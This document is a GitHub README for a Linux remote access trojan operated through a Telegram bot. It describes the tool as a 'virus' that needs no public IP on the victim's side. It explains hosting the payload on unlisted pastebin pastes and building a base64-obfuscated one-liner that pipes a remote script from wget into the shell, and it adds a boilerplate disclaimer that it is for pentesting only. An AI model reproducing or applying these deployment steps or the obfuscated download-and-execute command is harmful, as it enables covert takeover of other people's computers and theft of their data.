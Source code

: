 # linuxRAT-tgBot 🖤🐧
<sub>ignore the program's output during boot</sub>
##### Disclaimer ⚠️
- Neither the project nor its developer promote any kind of illegal activity and are **not** responsible for any misuse or damage caused by this project.
- This project is for the purpose of penetration **testing only**.
- Please do **not** use this tool on other people's devices without their permission.
- Do **not** use this tool to harm others.
- Use this project responsibly on your own devices **only**.
- It is the end user's **responsibility** to obey all applicable local, state, federal, and international laws.
- This software is meant for educational purposes only. I'm **not** responsible for any malicious use of the app.
- I'm **not** responsible for any malicious use of the app.

# Features 🔥
- this is a remote access virus (so-called RAT);
- the victim does not need a white IP ✨;
- management is carried out using a telegram bot;
- you just need to put the data in a configuration file and upload it all to [pastebin](https://pastebin.com/);
- easy to use

# Requirements 👀
+ python3
    + aiogram==3.0.0b6
    + requests
+ bash commands
    + WGET
	+ CURL
    + imagemagick (not necessarily)
	+ cd
	+ systemct ( systemd🐧 )
	+ sleep (not necessarily)
	+ echo (not necessarily)
	+ if 
	+ then
	+ mkdir
	+ apt (not necessarily)
	+ clear (not necessarily)
+ internet
+ linux!

# Install  🥷🏽
Well, let's start!
I use pastebin, you can use any text paste tool on the web.

1) Setup the bot's config:   
1.1) Copy all code from this [site](https://raw.githubusercontent.com/dentuwu/linuxRAT-tgBot/main/kernel.py).   
1.2) Paste this code in pastebin.com   
1.3) In the TOKEN ribbon, enter your bot token.   
1.4) In the ADMINS ribbon, enter the administrator's ID (listing the user's id in commas), so that only they can use the bot, the id can be taken in [this bot](t.me/myidbot).   
1.5) In the TIMEOUT ribbon, enter a timeout, if the command takes a long time to execute, it will be aborted after n (default 45) seconds.   

2) You should have it in the settings:     
+ Paste Expiration: 1 Week (recommended).    
+ Paste Exposure: Unlisted (so other users don't see your token and id).   

You should get it:   

![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/code.jpg "code kernel.py") 
 
![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/optional-paste-settings.jpg "settings paste")

2.1) **Touch** button "Create New Paste".     
3) Click on raw, and **save** the received link:     

![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/raw.jpg "rickroll")

4) Setup the install.sh config    
4.1) Copy all code from this [site]https://github.com/dentuwu/linuxRAT-tgBot/raw/main/install.sh).   
4.2) Paste this code in pastebin.com    
4.3) In the URL_KERNEL_PY ribbon, enter the link obtained in point 3.    

 ![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/url-kernel-py.jpg "url kernel py")

4.4) If possible, do the same with URL_KERNEL_SERVICE,URL_NO_ROOT_KERNEL_SERVICE, services are at [this link](https://github.com/dentuwu/linuxRAT-tgBot/tree/main/services), it is **not necessary**.     
4.5) Repeat the points 2.1 and 3.   

##### Using
Open a new terminal, and write this code :   
```bash
 echo "wget url  -O- | sh" | base64
```
Instead of **url**, there should be a link obtained in point 4.5   

You received something like this output - cmlja3JvbGwK, copy it and formulate a ready-made command to download the script and run it:   

```bash
 echo output | base64 -d | bash
```
 
Run this command (on your devices only)!  


## Tested   
**this is script tested on:**  
* Ubuntu 22.04 LTS  


